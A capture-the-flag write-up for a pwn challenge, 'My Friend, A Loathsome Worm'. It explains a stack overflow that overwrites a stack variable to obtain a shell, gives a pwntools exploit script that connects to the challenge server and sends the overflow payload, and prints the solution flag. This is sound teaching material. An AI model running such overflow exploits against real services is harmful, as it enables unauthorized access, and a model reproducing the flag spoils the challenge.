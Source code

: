 # My Friend, A Loathsome Worm

> pwn

## 题目描述

This one should be quite straight forward. Can you trick this program into popping a shell without even bothering to overwrite the return address? Why pick the lock when you can simply remove the hinges. :)

Download exploit1.bin

The binary is running at 34.123.210.162 port 20232

## 解题思路

- 普通栈溢出，通过溢出字符串覆盖栈上的变量影响后续判断。

![源码分析](images/源码分析.png)

![栈分析](images/栈分析.png)

## exp

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
r = remote('34.123.210.162', 20232)
r.recvuntil(b'Choice: ')
r.sendline(b'1')
r.recvuntil(b'Enter new username: ')
r.sendline(b'A'*28+p64(1337))
r.recvuntil(b'Choice: ')
r.sendline(b'3')
r.interactive()
```

## flag

```
poctf{uwsp_5w337_c10v32_4nd_50f7_511k}
```